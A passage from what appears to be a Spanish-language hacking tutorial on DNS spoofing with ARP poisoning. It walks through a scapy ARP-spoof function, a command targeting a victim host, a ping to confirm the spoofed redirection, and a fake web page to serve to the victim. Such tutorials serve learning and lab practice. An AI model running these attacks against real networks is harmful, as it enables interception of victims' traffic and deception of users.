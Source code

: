 2. **Probar la redirección con `ping`**:
   
   Para verificar que el ataque está funcionando, podemos realizar un ping al dominio "hack4.io" desde la máquina víctima:
   
   ```bash
   ping -c 1 hack4.io
   ```

   La respuesta del ping debería mostrar la IP a la que hemos redirigido el tráfico (en este caso, "1.2.3.4").

---

### Envenenamiento ARP para Man-in-the-Middle

Para que el DNS Spoofing funcione correctamente, necesitamos asegurarnos de que el tráfico de la víctima pase por nuestra máquina. Para ello, realizamos un ataque de envenenamiento ARP.

1. **Script de envenenamiento ARP (`arp_spoof.py`)**:

   Podemos utilizar un script de envenenamiento ARP como el siguiente, que redirige el tráfico de la víctima a través de nuestra máquina:

   ```python
   import scapy.all as scapy

   def spoof(target_ip, spoof_ip):
       packet = scapy.ARP(op=2, pdst=target_ip, hwdst="MAC Address", psrc=spoof_ip)
       scapy.send(packet, verbose=False)
   ```

2. **Ejecutar el ataque de envenenamiento ARP**:

   Para realizar el envenenamiento ARP, ejecutamos el siguiente comando:

   ```bash
   python3 arp_spoof.py -t 192.168.1.2
   ```

   Esto redirigirá el tráfico de la víctima a través de nuestra máquina.

---

### Montar un servidor HTTP para servir contenido falso

Podemos crear un archivo `index.html` que contendrá la página falsa que queremos mostrar a la víctima:

1. **Crear el archivo `index.html`**:

   ```bash
   nvim index.html
   ```

   Contenido de `index.html`:

   ```html
   Hacked ;)
   ```
